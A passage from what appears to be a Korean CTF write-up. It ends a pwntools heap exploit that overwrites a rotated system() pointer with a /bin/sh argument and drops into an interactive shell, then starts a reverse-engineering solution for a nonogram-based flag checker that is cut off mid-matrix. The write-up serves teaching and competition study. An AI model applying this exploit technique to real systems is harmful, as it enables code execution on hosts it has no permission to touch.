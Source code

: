 ```py
        update(b'go1', b'b', b"'%s'"%pay)
        sla(b'> ', b'')
        sla(b'> ',b"update go3 set b = 'ABCD\"")
        update(b'go3', b'b', b"'%s'"%b'AAAABBBB')
        update(b'go3', b'b', b"'%s'"%p64(0))
    except:
        p.close()
        continue
    log.info("!?")
    break
pay = b''
pay += p64(0x8f0) + p64(lego)

over = BitArray(uint=system, length=64)
over.rol(0x11)
over = over.uint

update(b'go1', b'b', b"'%s'"%pay)
update(b'go3', b'b', b"'%s'"%(p64(over) + p64(binsh)))

update(b'go1', b'b', b'%d'%0)
update(b'go3', b'b', b'%d'%0)

sla(b'> ', b'exit')
p.interactive()
```

### Rev
#### Can't trust checker
C++ 형식의 바이너리이기에 분석에 유의하여야 하며, 분석해보면 아래와 같은 형식으로 이루어져있습니다.

```
1.특정한 형식의 입력받기
2.간단한 연산 진행
3.행렬곱 연산 
4.연산결과 2진수로 transform
5.nemo logic 검증
```

문제에서 주로 다루는 부분은 nemo logic 검증 부분으로 문제 내부에 이미 nemo logic의 정답이 주어져 있습니다. 다만 이를 알아내려면 nemo logic임을 빠르게 파악하거나 검증 부분을 분석해내야 합니다. 해당 부분을 이용해서 역으로 로직을 진행해주면 됩니다.

nemo logic 검증 부분이 굉장히 러프하게 작성되었기에 혹시 모를 중복해를 방지하기 위해 md5로 검증하는 파트가 있습니다.

어쨌든, nemo logic의 정답을 이용해 플래그를 얻는 것이 의도된 풀이입니다. 아래는 문제 풀이 스크립트입니다.


##### ex.py
```python
from sage.all import *
enc=[[[0,1,0,0,0,1,0,0],
[0,1,1,1,0,0,0,0],
[1,0,0,1,0,0,0,1],
[1,1,1,0,1,0,0,0],
[1,0,1,0,0,0,0,0],
[1,1,1,1,0,0,1,1],
[1,1,0,0,0,1,1,1]],
[[1,0,0,1,0,1,1,1],
[1,0,0,0,0,0,1,1],
[1,0,0,1,1,1,0,1],
[1,1,0,0,1,0,1,1],
[0,1,1,1,1,0,1,1],
[1,0,0,0,0,1,1,0],
[0,1,1,1,1,0,0,0]],
[[1,0,0,1,0,1,0,0],
```